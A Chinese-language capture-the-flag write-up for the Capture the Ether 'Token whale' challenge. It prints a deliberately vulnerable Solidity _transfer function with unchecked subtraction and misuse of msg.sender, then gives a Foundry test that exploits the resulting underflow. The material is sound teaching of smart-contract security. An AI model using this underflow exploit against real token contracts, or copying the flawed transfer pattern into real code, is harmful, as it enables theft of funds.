 # Token whale

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/token-whale/)

原题目要求 TokenWhaleChallenge 合约里的 player 的 token 余额大于 1000000。最开始的时候会给 player 1000 初始 token 余额。

## 运行

**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Token_sale -vvv
```

## 功能简述

在原题 `^0.4.21` 版本下，所有的算术操作都是 unchecked，因此为了能够复现这个 Challenge，我给 _transfer 里面的某一行增加了 unchecked。

TokenWhaleChallenge 的合约不符合 ERC20 标准（没有返回 bool），只是使用了类似的接口。

TokenWhaleChallenge 里面的 _transfer() 函数实现有问题：

```solidity
    function _transfer(address to, uint256 value) internal {
        unchecked {
            balanceOf[msg.sender] -= value;
        }
        balanceOf[to] += value;
        emit Transfer(msg.sender, to, value);
    }
```

1. 内部/私有函数不应该使用 `msg.sender` 等这样的全局变量，最好使用参数传进来。这导致 `transferFrom` 并不是从 from 而是从 msg.sender 里面扣除余额。
2. 没有进行 Math 操作的检查。

解决思路是，player（alice）和她的同伙（bob）一起操作：
1. bob approve alice 1 token
2. alice 将她的所有余额转移给 bob
3. alice 调用 `transferFrom(bob, address(0), 1)`，这时 bob 的余额大于等于 1；`allowance[bob][alice] >= 1`，接着会执行 `_transfer(to, value)`，将 alice 的余额减 1，实现下溢出。

```solidity
        vm.startPrank(bob);
        tokenWhaleChallenge.approve(alice, 1);
        vm.stopPrank();

        vm.startPrank(alice);
        tokenWhaleChallenge.transfer(bob, 1000);
        tokenWhaleChallenge.transferFrom(bob, address(0), 1);
        vm.stopPrank();
```